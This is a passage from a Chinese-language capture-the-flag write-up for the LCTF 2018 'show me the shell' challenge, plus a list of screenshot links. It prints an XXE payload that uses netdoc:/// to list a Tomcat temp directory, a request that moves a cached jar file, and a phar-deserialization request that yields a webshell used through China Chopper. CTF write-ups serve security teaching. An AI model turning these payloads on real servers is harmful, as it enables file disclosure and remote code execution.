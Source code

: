 **得到临时文件名**

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "netdoc:///usr/local/tomcat/temp/" >]>
    <creds>
        <user>&xxe;</user>
        <pass>mypass</pass>
    </creds>

**如图所示：**

![此处输入图片的描述][13]


### **5.调用 Move 函数实现文件的拷贝**

**如图所示：**

![此处输入图片的描述][14]

**示例代码：**

    http://212.64.7.171/LCTF.php?
    m=move
    &source=/usr/local/tomcat/temp/jar_cachexxxxxxxxxxxx.tmp
    &dest=jar.zip

这个时候我们的 payload 已经在我们可控的目录中了，并且被我们重名名为了 jar.zip ,这个我们在 payload 文件中写的是一致的

### **6.调用 check 函数实现反序列化 getshell**

我们先在浏览器看一下：

**如图所示：**

![此处输入图片的描述][15]

**示例代码：**

    http://212.64.7.171/LCTF.php?m=check&c=compress.zlib://phar:///usr/local/tomcat/temp/jar_cachexxxxxxxxxxxxxxxxxx.tmp

没啥反应，其实我们放到菜刀里就有反映了


**如图所示:**

![此处输入图片的描述][16]

![此处输入图片的描述][17]


这里还要注意一点，我们在创建 shell 的时候还要注意我们必须带上 cookie: 要不然会被 php 本身的逻辑给 die 掉

**如图所示：**


  [1]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF_show_me_the_shell_.gif
  [2]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_1.png
  [3]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%862.png
  [4]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_3.png
  [5]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_4.png
  [6]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%865.png
  [7]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_6.png
  [8]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018_%E8%AF%84%E8%AE%BA%E6%A1%867.png
  [9]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%868.png
  [10]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%869.png
  [11]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E5%9E%83%E5%9C%BE%E5%AD%97%E8%8A%82.png
  [12]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%8E%B7%E5%BE%97%E8%AF%B7%E6%B1%82.png
  [13]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%8E%B7%E5%BE%97%E4%B8%B4%E6%97%B6%E6%96%87%E4%BB%B6%E5%90%8D.png
  [14]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E6%96%87%E4%BB%B6%E6%8B%B7%E8%B4%9D.png
  [15]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.png
  [16]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20getshell.png
  [17]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20getshell2.png
  [18]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20cookie.png
  [19]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20flag.png